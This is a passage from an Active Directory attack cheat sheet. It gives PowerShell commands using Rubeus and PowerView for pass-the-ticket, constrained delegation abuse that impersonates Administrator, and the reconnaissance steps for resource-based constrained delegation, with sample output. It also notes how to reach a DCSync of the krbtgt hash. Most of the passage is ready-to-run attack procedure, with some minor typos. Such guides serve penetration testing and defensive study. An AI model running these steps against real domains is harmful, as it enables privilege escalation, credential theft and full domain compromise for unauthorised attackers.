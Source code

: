 ```powershell
C:> Rubeus.exe ptt /ticket:<Base64EncodedTicket>
[*] Action: Import Ticket
[+] Ticket successfully imported!

# At this point we get a ticket for the DC User
# From here, a DC-Sync attack to DC to get krbtgt and also to enterprise DC.
```
### Constrained Delegation
---
With have GenericALL/GenericWrite privileges on a machine account object of a domain, it can be abused, and then impersonate ourselves as any user of the domain to the machine.
- `msdn-allowedtodelegate`: services that can be abused for impersonation.
```powershell
# Get users with Constraied delegation
C:> . .\PowerView.ps1
C:> Get-DomainUser -TrustedToAuth
#    msds-allowedtodelegateto : {CIFS/host.domain.LOCAL, CIFS/host}    <-- Service to abuse
#    useraccountcontrol       : TRUSTED_TO_AUTH_FOR_DELEGATION         <-- User is trusted 
#    samaccountname            : websvc                                <-- user name

# Request a TGS for user as Domain Administrator for CIFS on host. The user that has constrained
# delegation can request the ticket to impersonate Admin user (f.ex.). We get a ticket in this example
# to impersonate user Administrator on <host> for shared files (CIFS)
C:> Rubeus.exe s4u r:<user> /aes256:<user_aes_hash> /impersonateuser:Administrator 
                   /msdsspn:"CIFS/<host_fqdn>" /ptt
```
```powershell
# Get Computer Accounts with Constrained Delegation
C:> Get-DomainComputer -TrustedToAuth

# Pass the ticket to impersonate User Administrator using the host account
#   Using LDAP as the altservice, will allow to do a dcsync to dump krbgtg hash
C:> Rubeus.exe s4u /user:<host_account>$ /aes256:<host_aes_hash> /impersonateuser:Administrator 
                   /msdsspn:time/<host_Fqdn> /altservice:<SPN: http|host|ldap|...> /ptt
```
#### Resource Based RBCD
Required control over an object which has SPN configured, write permissions over the target service or object to configure msDS-AllowedToActOnBehalfOfOtherIdentity required. 
With required privileges on a computer object, it can be abused and impersonate ourselves as any user of the domain to it.
1. Check if User has Write Permissions over a machine
2. Check machines for RCBD enabled
3. Check if user from step 1 has Write access to machine in 2
4. Add our machine as delegated for machine 1
5. Get hash of our machine
6. Impersonate user using our machine hash 
```powershell
# Use BloodHound to get Users permissions over hosts for clues

# Then check potential users with following command
C:> Find-InterestingDomainACL | ?{$_.identityreferencename -match '<user>'}
#   ObjectDN                : CN=DCORP-MGMT,OU=Servers,DC=dollarcorp,DC=moneycorp,DC=local
#   ActiveDirectoryRights   : ListChildren, ReadProperty, GenericWrite
#   SecurityIdentifier      : S-1-5-21-1874506631-3219952063-538504511-1109
#   IdentityReferenceName   : ciadmin
# Also can check for everything to enumerate all and then check previous command
C:>  Find-InterestingDomainAcl | select identityreferencename,identityreferenceclass,activedirectoryrights

# Check for RCBD enabled machines
C:> Get-DomainRBCD

```